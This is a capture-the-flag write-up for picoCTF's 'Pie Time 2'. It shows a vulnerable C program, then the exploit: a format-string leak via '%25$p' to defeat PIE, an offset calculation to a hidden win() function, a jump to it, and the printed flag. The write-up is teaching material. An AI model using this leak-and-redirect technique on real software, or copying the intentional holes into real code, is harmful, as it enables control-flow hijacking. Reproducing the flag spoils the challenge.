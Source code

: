 # [Pie Time 2 (Binary Exploitation, Medium)](https://play.picoctf.org/practice/challenge/491) - PIE, arbitrary function pointer call / control flow hijack
- Description: Can you try to get the flag? I'm not revealing anything anymore!!
 - `vuln.c`
 ```c
 #include <stdio.h>
 #include <stdlib.h>
 #include <signal.h>
 #include <unistd.h>
 
 void segfault_handler() {
   printf("Segfault Occurred, incorrect address.\n");
   exit(0);
 }
 
 void call_functions() {
   char buffer[64];
   printf("Enter your name:");
   fgets(buffer, 64, stdin);
   printf(buffer);
 
   unsigned long val;
   printf(" enter the address to jump to, ex => 0x12345: ");
   scanf("%lx", &val);
 
   void (*foo)(void) = (void (*)())val;
   foo();
 }
 
 int win() {
   FILE *fptr;
   char c;
 
   printf("You won!\n");
   // Open file
   fptr = fopen("flag.txt", "r");
   if (fptr == NULL)
   {
       printf("Cannot open file.\n");
       exit(0);
   }
 
   // Read contents from file
   c = fgetc(fptr);
   while (c != EOF)
   {
       printf ("%c", c);
       c = fgetc(fptr);
   }
 
   printf("\n");
   fclose(fptr);
 }
 
 int main() {
   signal(SIGSEGV, segfault_handler);
   setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered
 
   call_functions();
   return 0;
 }
 ```
 - Hint 1: What vulnerability can be exploited to leak the address?
 - Hint 2: Please be mindful of the size of pointers in this binary
 - Solution:
   - C program with a format string vulnerability, an arbitrary function call via a user-supplied address, a PIE (Position Independent Executable) enabled (function addresses change every run)
   - Goal: Call hidden `win` function to print the flag
   - `printf(buffer);`: User input is directly passed to `printf`, allowing memory leaks using format specifiers like `%p`
   - `void (*foo)(void) = (void (*)())val;`: User controls `val`, which is cast to a function pointer and called (allowing arbitrary code execution if you supply a valid function address)
   - Leak PIE address (of `main`) using the format string: `%25$p`
   ```bash
   schufot-picoctf@webshell:~$ nc rescued-float.picoctf.net 59092
   Enter your name:%25$p
   0x63e485ca3400
    enter the address to jump to, ex => 0x12345:
   ```
  - Calculate address of `win()`: win = main - 0x96 = 0x63e485ca3400 - 0x96 = 0x63e485ca336a
   ```bash
    enter the address to jump to, ex => 0x12345: 0x63e485ca336a
   You won!
   picoCTF{p13_5h0u1dn'7_134k_9650b792}
   ```
- Flag: `picoCTF{p13_5h0u1dn'7_134k_9650b792}`
- Explanation:
  - PIE (Position-Independent Executable): Security feature that compiles binaries in a way that allows the entire program to be loaded at a random address in memory
    - Every function (like main() or win()) is placed at an offset relative to the base address of the binary
    - At runtime, this base address is randomized
  - Address Space Layout Randomization (ASLR): Security mechanism that randomizes the memory layout of processes to prevent attacks like return-to-libc or ROP (Return-Oriented Programming)
    - With ASLR + PIE: The actual address of main() will change each time the program runs, but the offset of main() and win() relative to the binary base stays the same

